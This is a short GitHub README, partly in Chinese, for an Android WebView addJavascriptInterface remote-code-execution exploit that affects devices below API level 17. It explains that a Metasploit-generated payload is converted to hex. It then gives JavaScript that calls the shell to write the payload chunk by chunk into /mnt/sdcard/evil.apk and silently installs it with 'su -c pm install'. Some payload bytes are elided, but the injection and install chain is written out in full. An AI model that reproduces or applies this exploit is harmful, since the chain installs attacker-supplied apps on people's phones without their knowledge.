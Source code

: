 # Android-webview-inject-shell
webview javascript addJavascriptInterface RCE test



### 影响版本

-  Android API level 小于17 (即Android 4.2之前的系统版本) 

### 漏洞执行处

-  WebView.addJavascriptInterface(Object obj, String interfaceName)  
-  使用addJavascriptInterface方法注册可供JavaScript调用的Java对象； 
-  使用WebView加载外部网页或者本地网页； 

## 注意事项

通过msf生成的elf后，并转为十六进制（注意x86\x64系统）

注入apk写法如下，目前测试只能注入低于100kb的代码量 （必须是\\\x格式）

亲测 js文件过大，会卡死 - -

```js
var armBinary1 = "\\x50\\x4b\\x03\\x04\\x14\\x42\\xbf--------\\x40\\x7f"
var armBinary2 = "\\x93\\x9a\\xff\\xa2\\x56--------\\x5f\\x0a\\x3d\\"
var armBinary3 = "\\xdb\\x06\\x00\\x00\\x0c\\x1c--------\\\\x00\\x00\\x13"
var armBinary4 = "\\x2e\\x78\\x6d\\x6c\\xad\\x97--------\\\\xcb\\x00\\x00\\x00"


execute(["/system/bin/sh","-c","echo -n '"+armBinary1+"' >  /mnt/sdcard/evil.apk"]);
execute(["/system/bin/sh","-c","echo -n '"+armBinary2+"' >>  /mnt/sdcard/evil.apk"]);
execute(["/system/bin/sh","-c","echo -n '"+armBinary3+"' >>  /mnt/sdcard/evil.apk"]);
execute(["/system/bin/sh","-c","echo -n '"+armBinary4+"' >>  /mnt/sdcard/evil.apk"]);
execute(["su","-c","pm install -r /mnt/sdcard/evil.apk"]);
```

## Reference

https://cloud.tencent.com/developer/article/1743487
https://wooyun.js.org/drops/WebView%E4%B8%AD%E6%8E%A5%E5%8F%A3%E9%9A%90%E6%82%A3%E4%B8%8E%E6%89%8B%E6%9C%BA%E6%8C%82%E9%A9%AC%E5%88%A9%E7%94%A8.html